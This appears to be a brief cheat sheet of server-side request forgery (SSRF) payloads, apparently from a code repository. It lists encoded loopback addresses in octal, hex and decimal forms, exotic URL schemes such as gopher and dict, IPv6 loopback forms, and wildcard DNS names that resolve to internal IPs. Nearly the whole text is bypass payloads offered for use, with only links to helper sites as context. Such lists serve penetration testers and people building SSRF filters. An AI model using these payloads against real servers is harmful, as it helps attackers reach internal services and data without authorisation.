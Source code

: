 ## SSRF

```
http://0177.1/
```

```
http://0x7f.1/
```

```
https://520968996
```

_Note:_ The latter can be calculated using http://www.subnetmask.info/

**Exotic Handlers**

```
gopher://, dict://, php://, jar://, tftp://
```

**IPv6**

```
http://[::1]
```

```
http://[::]
```

**Wildcard DNS**

```
10.0.0.1.xip.io
www.10.0.0.1.xip.io
mysite.10.0.0.1.xip.io
foo.bar.10.0.0.1.xip.io
```
_Link:_ http://xip.io

```
10.0.0.1.nip.io
app.10.0.0.1.nip.io
customer1.app.10.0.0.1.nip.io
customer2.app.10.0.0.1.nip.io
otherapp.10.0.0.1.nip.io
```

_Link:_ http://nip.io
